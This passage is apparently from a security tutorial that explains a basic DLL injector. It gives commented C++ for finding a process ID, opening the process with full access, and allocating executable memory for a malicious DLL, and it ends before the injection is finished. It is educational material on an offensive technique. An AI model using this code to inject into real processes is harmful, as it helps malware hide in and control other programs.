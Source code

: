 We will break down a basic DLL injector to identify each of the steps and explain in more depth below.

At step one of DLL injection, we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Process32First()`, and `Process32Next()`.

```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

At step two, after the PID has been enumerated, we need to open the process. This can be accomplished from a variety of Windows API calls: `GetModuleHandle`, `GetProcAddress`, or `OpenProcess`.

```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```

At step three, memory must be allocated for the provided malicious DLL to reside. As with most injectors, this can be accomplished using `VirtualAllocEx`.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```
